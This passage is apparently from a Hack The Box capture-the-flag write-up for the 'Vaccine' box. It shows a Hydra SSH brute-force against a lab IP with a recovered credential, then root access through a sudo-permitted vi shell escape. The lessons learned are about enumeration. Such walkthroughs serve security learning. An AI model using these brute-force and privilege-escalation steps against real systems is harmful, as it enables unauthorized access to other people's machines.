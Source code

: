 ```none
└─$ hydra -L ../creds/usernames -P ../creds/passwords ssh://10.10.10.46                                       255 ⨯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-11 14:31:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 36 login tries (l:6/p:6), ~3 tries per task
[DATA] attacking ssh://10.10.10.46:22/
[22][ssh] host: 10.10.10.46   login: postgres   password: P@s5w0rd!
[22][ssh] host: 10.10.10.46   login: postgres   password: P@s5w0rd!
1 of 1 target successfully completed, 2 valid passwords found
```

Not sure why it reported the same credentials twice? Anyway - got a password validated with no manual effort. Thought it was really interesting that there was an SSH key for the `postgres` user, which was not useful.

## Flag: Root

The next step, get a root shell. Leverage the command in the sudo file.

```none
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

And, using the well known `vi` shell escape:

```none
:shell
```

Got us a root shell!

```none
root@vaccine:/var/lib/postgresql# whoami
root
root@vaccine:/var/lib/postgresql# id
uid=0(root) gid=0(root) groups=0(root)
root@vaccine:/var/lib/postgresql# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- The key to this box was just enough enumeration at each step. Watch those rabbit holes!
- Automating credentials checks reduces human error and is much faster
- Save notes to a share between host/guest. I lost my notes for this box.

## Useful Resources

- Check the official/non-official walkthroughs on Hack The Box website

